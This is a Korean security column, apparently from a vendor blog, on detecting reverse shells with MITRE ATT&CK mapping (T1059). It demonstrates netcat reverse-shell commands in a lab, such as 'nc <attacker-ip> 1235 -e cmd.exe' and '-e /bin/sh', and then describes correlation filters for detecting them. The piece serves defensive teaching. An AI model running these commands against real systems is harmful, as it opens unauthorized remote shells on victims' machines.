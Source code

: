 Reverse Shell 탐지 with MITRE ATT&CK

리버스 쉘(Reverse Shell)
목표 시스템의 취약점을 이용하여 쉘 세션을 시작한 다음 피해자의 컴퓨터에 액세스합니다.
목표는 원격 컴퓨터에 연결하고 공격자가 원격으로 액세스할 수 있도록 대상 시스템 쉘의 입력 및 출력 연결을 리다이렉션 하는 것입니다.
특정 피해 시스템에서 자신의 권한(cmd)을 사용하여 공격자 시스템에 연결하여 찾아가는 방식입니다.

리버스 연결을 하는 이유는 정보보호 제품의 네트워크 연결 구조 때문입니다.
외부에서 직접 접속은 모두 방화벽에 의하여 차단되지만, 내부에서 외부로의 연결은 좀처럼 관리되지 않고 있습니다.
그러므로, 해커 입장에서는 리버스 연결 통로를 이용하여 외부에서 내부로 편리하게 접속할 수 있게 됩니다.

다음은 NC(netcat)를 사용하여 리버스 쉘을 실행하는 예를 살펴 보겠습니다.

Test 환경
Attacker
172.16.13.99 / Windows 2016
Victim
172.16.13.97 / Windows 10

동작 시나리오
1. 공격자는 피해 서버에서 자신의 시스템에 찾아오도록 지정된 포트를 열어둡니다.

cmd>nc -lvp 1235

2. 피해 서버에서 첨부된 특정 파일(악성 파일)이 실행됩니다.

3. 피해 서버에서 공격자가 의도한 위치에 nc가 설치된 후 의도한 시간에  nc 명령어가 자동으로 실행됩니다.

4. 피해 서버에서 미리 설치된 nc를 실행시켜 지정된 공격자 서버로 연결합니다.

cmd>nc 172.16.13.99 1235 -e cmd.exe

5. 연결이 성공한 후 공격자 시스템에서 netstat 명령어를 이용하여 상태가 ‘ESTABLISHED’ 된 것을 확인합니다.

6.  공격자 시스템에서 피해 서버로 연결에 성공하여 내부 시스템에 접근하였습니다.

*nc(netcat)
– TCP 또는 UDP를 사용하여 네트워크 연결을 읽거나 기록하는 컴퓨터 네트워킹 유틸리티이다. 이 명령어는 의존 가능한 백엔드로 설계되어 있으며 다른 프로그램이나 스크립트에 의해 직접 사용되거나 쉽게 구동할 수 있다.
[1]

Options
-e: 연결 시 파일 실행
-l: listen 모드로 nc 실행
-p: port 지정
-v: 상세 정보 출력

이와 같은 공격을 탐지하기 위하여 다음과 같이 PLURA 상관분석필터를 생성해 보겠습니다.

[상관분석 필터]
Group 1. Reverse Shell – Outbound
Reverse Shell – Outbound 연결 시도 시 발생되는 로그입니다.

Group 2. Reverse Shell – cmd/PowerShell 실행 (with nc)
Reverse Shell – cmd/PowerShell 실행 (with nc) 시 발생되는 로그입니다.

[상관분석 탐지 결과]
마이터 어택> 명령 및 스크립팅 인터프리터 [T1059] [2]
공격자는 명령 및 스크립트 인터프리터를 남용하여 명령, 스크립트 또는 바이너리를 실행할 수 있습니다. 이러한 인터페이스와 언어는 컴퓨터 시스템과 상호 작용하는 방법을 제공하며 다양한 플랫폼에서 공통적 인 기능입니다. 대부분의 시스템에는 몇 가지 기본 제공 명령 줄 인터페이스 및 스크립팅 기능이 함께 제공됩니다. 예를 들어 macOS 및 Linux 배포에는 Unix Shell의 일부가 포함되어 있으며 Windows 설치에는 Windows Command Shell 및 PowerShell이 ​​포함됩니다. 

Linux Test
Attacker: 172.16.13.154 / CentOS 7
Victim: 172.16.13.155 / CentOS 7

동작 시나리오는 Windows와 동일합니다.
1. Attacker
# nc -lvp 1235

2. Victim
# nc 172.16.13.154 1235 -e /bin/sh

3. 공격자 시스템에서 피해 서버로 연결에 성공하여 내부 시스템에 접근하였습니다.

[탐지 필터] 마이터 어택> 명령 및 스크립팅 인터프리터 [T1059]

 

참고
[1] NC,  https://ko.wikipedia.org/wiki/Netcat[2] 명령 및 스크립팅 인터프리터 [T1059], https://attack.mitre.org/techniques/T1059/
By Creator|4월 13th, 2023|Categories: Column|Reverse Shell 탐지 with MITRE ATT&CK 댓글 닫힘
